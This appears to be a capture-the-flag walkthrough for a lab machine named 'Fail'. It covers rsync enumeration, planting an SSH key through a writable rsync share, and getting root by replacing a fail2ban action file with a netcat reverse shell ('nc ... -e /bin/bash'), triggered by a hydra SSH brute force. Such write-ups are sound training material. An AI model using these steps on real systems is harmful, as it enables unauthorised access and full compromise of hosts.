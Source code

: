 # Fail

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 -Pn 192.168.243.126
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-17 21:08 +08
Nmap scan report for 192.168.243.126
Host is up (0.17s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT    STATE SERVICE
22/tcp  open  ssh
873/tcp open  rsync
```

Rsync was the only thing available.

### Rsync Enum --> SSH

Hacktricks has a whole page for RSync we can follow:

{% embed url="https://book.hacktricks.xyz/network-services-pentesting/873-pentesting-rsync" %}

We can first do further enumeration on the modules available:

```
$ nmap -sV --script "rsync-list-modules" -p 873 192.168.243.126
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-17 21:09 +08
Nmap scan report for 192.168.243.126
Host is up (0.17s latency).

PORT    STATE SERVICE VERSION
873/tcp open  rsync   (protocol version 31)
| rsync-list-modules: 
|_  fox                 fox home

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1.45 seconds
```

`fox` might be the user present on the machine. We can list the files present:

```
$ rsync -av --list-only rsync://fox@192.168.243.126/fox
receiving incremental file list
drwxr-xr-x          4,096 2021/01/21 22:21:59 .
lrwxrwxrwx              9 2020/12/04 04:22:42 .bash_history -> /dev/null
-rw-r--r--            220 2019/04/18 12:12:36 .bash_logout
-rw-r--r--          3,526 2019/04/18 12:12:36 .bashrc
-rw-r--r--            807 2019/04/18 12:12:36 .profile
```

What we do is create a new `.ssh` directory and place our public key within it:

```bash
mkdir .ssh
chmod 700 .ssh
cp ~/.ssh/id_rsa.pub .ssh/authorized_keys
chmod 600 .ssh/authorized_keys
```

Then, transfer it to the machine:

```
$ rsync -av .ssh rsync://fox@192.168.243.126/fox
sending incremental file list
.ssh/
.ssh/authorized_keys

sent 534 bytes  received 67 bytes  240.40 bytes/sec
total size is 391  speedup is 0.65
```

Then, we can `ssh` in:

<figure><img src="../../../.gitbook/assets/image (6) (1) (8).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Fail2ban --> Root

The user is able to edit the `fail2ban` configuration files to execute commands as `root` since `fox` is part of that group.&#x20;

We just need to create a malicious `iptables-multiport.conf` file like this:

```
# Fail2Ban configuration file
#
# Author: Cyril Jaquier
# Modified by Yaroslav Halchenko for multiport banning
#

[INCLUDES]

before = iptables-common.conf

[Definition]

# Option:  actionstart
# Notes.:  command executed once at the start of Fail2Ban.
# Values:  CMD
#
actionstart = <iptables> -N f2b-<name>
              <iptables> -A f2b-<name> -j <returntype>
              <iptables> -I <chain> -p <protocol> -m multiport --dports <port> -j f2b-<name>

# Option:  actionstop
# Notes.:  command executed once at the end of Fail2Ban
# Values:  CMD
#
actionstop = <iptables> -D <chain> -p <protocol> -m multiport --dports <port> -j f2b-<name>
             <actionflush>
             <iptables> -X f2b-<name>

# Option:  actioncheck
# Notes.:  command executed once before each actionban command
# Values:  CMD
#
actioncheck = <iptables> -n -L <chain> | grep -q 'f2b-<name>[ \t]'

# Option:  actionban
# Notes.:  command executed when banning an IP. Take care that the
#          command is executed with Fail2Ban user rights.
# Tags:    See jail.conf(5) man page
# Values:  CMD
#
actionban = nc 192.168.45.231 80 -e /bin/bash
# Option:  actionunban
# Notes.:  command executed when unbanning an IP. Take care that the
#          command is executed with Fail2Ban user rights.
# Tags:    See jail.conf(5) man page
# Values:  CMD
#
actionunban = <iptables> -D f2b-<name> -s <ip> -j <blocktype>
[Init]

```

Afterwards, replace the actual file with our malicious one, where the `actionban` has been edited.&#x20;

```
fox@fail:/etc/fail2ban/action.d$ rm iptables-multiport.conf
fox@fail:/etc/fail2ban/action.d$ wget 192.168.45.231:21/iptables-multiport.conf
--2023-07-17 09:23:58--  http://192.168.45.231:21/iptables-multiport.conf
Connecting to 192.168.45.231:21... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1401 (1.4K) [application/octet-stream]
Saving to: ‘iptables-multiport.conf’

iptables-multiport.conf 100%[============================>]   1.37K  --.-KB/s    in 0s      

2023-07-17 09:23:59 (183 MB/s) - ‘iptables-multiport.conf’ saved [1401/1401]
```

To trigger it, just generate a lot of `ssh` tries with `hydra`:

```
$ hydra -l fox -P /usr/share/wordlists/rockyou.txt 192.168.243.126 ssh
```

We would then get a reverse shell back as `root`:

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (4).png" alt=""><figcaption></figcaption></figure>
